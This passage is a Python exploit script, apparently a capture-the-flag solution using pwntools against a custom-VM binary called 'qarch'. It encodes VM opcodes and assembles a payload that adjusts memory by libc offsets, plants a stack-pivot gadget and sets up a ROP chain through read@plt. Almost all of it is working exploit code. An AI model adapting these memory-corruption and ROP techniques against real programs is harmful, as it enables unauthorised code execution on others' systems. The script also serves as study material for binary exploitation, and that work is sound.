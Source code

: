 ```python
    return opcode


def add(type=REG, imm=BYTE, dst=0, value=0):
    opcode = p8(2)
    opcode += p8(type+imm)
    opcode += p8(dst)
    opcode += getImm(imm, value)
    return opcode


def cmp(type=REG, imm=BYTE, dst=0, value=0):
    opcode = p8(0x12)
    opcode += p8(type+imm)
    opcode += p8(dst)
    opcode += getImm(imm, value)
    return opcode


def jnz(type=REG, imm=BYTE, dst=0):
    opcode = p8(0x15)
    opcode += p8(type+imm)
    opcode += getImm(imm, dst)
    return opcode


def syscall(ax):
    opcode = p8(0x20)+p8(ax)
    return opcode

libc = ELF("./lib/libc-2.27.so")
elf = ELF("./qarch")
context.arch = 'amd64'

payload = [
    call(MEM, 0, 0),
    add(MEM, BYTE, 0, 1),
    cmp(MEM, WORD, 0, 256),
    jnz(MEM, QWORD, -0x16 & 0xffffffffffffffff),
    push()*7,
    push()*6,
    call(MEM, 0, 0),
    pop(REG,BYTE,1),
    pop(REG,BYTE,1),
    pop(REG,BYTE,1),
    add(MEM,QWORD,1,(-264128)&0xffffffffffffffff),
    pop()*7,
    mov(0,QWORD,0),
    add(REG,BYTE,0,1),
    add(MEM,QWORD,0,0x0000000000046d7e), #xchg eax,esp
    push(0),
    push(0)*3,
    mov(0,DWORD,elf.plt['read']+6), #read_plt
    push(0),
    mov(0,DWORD,0x400E42),
    push(0)*6,
    mov(0,DWORD,0x6020d0),
    push()*4,
    mov(0,DWORD,0x602120+0x500),
    push(),
    mov(2,DWORD,0x2000),
    syscall(1)
]
```